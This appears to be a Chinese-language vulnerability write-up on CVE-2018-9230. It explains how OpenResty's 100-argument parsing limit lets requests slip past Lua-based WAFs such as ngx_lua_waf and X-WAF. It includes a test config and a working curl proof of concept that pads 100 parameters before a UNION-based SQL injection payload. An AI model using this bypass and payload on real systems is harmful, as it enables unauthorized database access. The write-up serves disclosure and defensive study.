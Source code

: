 （CVE-2018-9230）bypass OpenResty waf
=====================================

一、漏洞简介
------------

OpenResty是一款基于Nginx和Lua的Web平台。该平台用于搭建用于处理高并发、高扩展性的动态Web应用、Web服务和动态网关。OpenResty1.13.6.1之前的版本中存在安全漏洞，该漏洞源于程序使用`ngx.req.get_uri_args`和`ngx.req.get_post_args`函数接受参数的数量可以超过100个。远程攻击者可利用该漏洞绕过访问限制，干预Web应用程序防火墙(ngx\_lua\_waf或X-WAF)产品。

二、漏洞影响
------------

OpenResty \< 1.13.6.1

三、复现过程
------------

漏洞分析
--------

### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri
有两个方法：`ngx.req.get_uri_args`、`ngx.req.get_post_args`，二者主要的区别是参数来源有区别，`ngx.req.get_uri_args`获取
uri 请求参数，`ngx.req.get_post_args`获取来自 post 请求内容。

**测试用例：**

    server {
    listen 80;
    server_name localhost;

    location /test {
    content_by_lua_block {
    local arg = ngx.req.get_uri_args()
    for k,v in pairs(arg) do
    ngx.say(“[GET ] key:”, k, “ v:”, v)
    end
    ngx.req.read_body()
    local arg = ngx.req.get_post_args()
    for k,v in pairs(arg) do
    ngx.say(“[POST] key:”, k, “ v:”, v)
    end
    }
    }
    }

**输出测试：**

![1.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId26.png)

### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

![2.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId28.png)

这里，介绍参数大小写，主要用于进一步构造和理解测试用例。

### C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10\*10,共100参数，然后第101个参数添加SQL注入
Payload，我们来看看会发生什么？

测试用例：`curl 'www.0-sec.org/test?a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata`

**输出结果：**

![3.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId30.png)

可以看到，使用`ngx.req.get_uri_args`获取uri
请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

![4.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId31.png)

使用`ngx.req.get_post_args`
获取的post请求内容，也同样只获取前100个参数。

检查这两个函数的文档，出于安全原因默认的限制是100，它们接受一个可选参数，最多可以告诉它应该解析多少GET
/
POST参数。但只要攻击者构造的参数超过限制数就可以轻易绕过基于OpenResty的安全防护，这就存在一个uri参数溢出的问题。

综上，通过`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，当提交的参数超过限制数（默认限制100或可选参数限制），uri参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测，从而绕过基于OpenResty的WEB安全防护。

漏洞复现
--------

基于OpenResty构造的WEB安全防护，大多数使用`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，即默认限制100，并没有考虑参数溢出的情况，攻击者可构造超过限制数的参数，轻易的绕过安全防护。基于OpenResty的开源WAF如：ngx\_lua\_waf、X-WAF、Openstar等，均受影响。

### A、ngx\_lua\_waf

ngx\_lua\_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx\_lua\_waf

**拦截效果图：**

![5.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId34.png)

**利用参数溢出Bypass：**![6.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId35.png)

### B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：[https://waf.xsec.io](https://waf.xsec.io/)

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

![7.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId38.png)

**利用参数溢出Bypass：**

![8.png](resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId39.png)

参考链接
--------

> https://www.anquanke.com/post/id/103771
